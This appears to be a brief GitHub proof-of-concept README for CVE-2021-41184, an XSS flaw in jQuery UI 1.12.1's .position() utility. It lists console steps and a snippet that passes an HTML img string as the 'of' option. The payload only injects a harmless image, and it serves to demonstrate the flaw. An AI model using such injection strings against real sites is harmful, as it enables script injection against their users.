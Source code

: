 # Exploit-Medium-CVE-2021-41184

Exploit Medium	CVE-2021-41184 XSS in the `of` option of the `.position()` util

1. jQuery ui version v1.12.1 vulnerable

1.1 https://www.website.com/_js/jquery/jquery-ui-1.12.1/jquery-ui.min.js



------------------------------------------------Concept proof---------------------------------------------------------------



1. Open url 

2. Open inspect 

3. Look for some ID in site elements

3.1 #ID

4. Go to console tab

5. Inject script with ID selected at point 3.1

5.1 Script


	$("#id").position( {
	my: "center",
	at: "right bottom",
	of: "<img scr='https://media.makeameme.org/created/xss-xss-everywhere-5b8065.jpg' src='' />",
	collision: "none"
        });
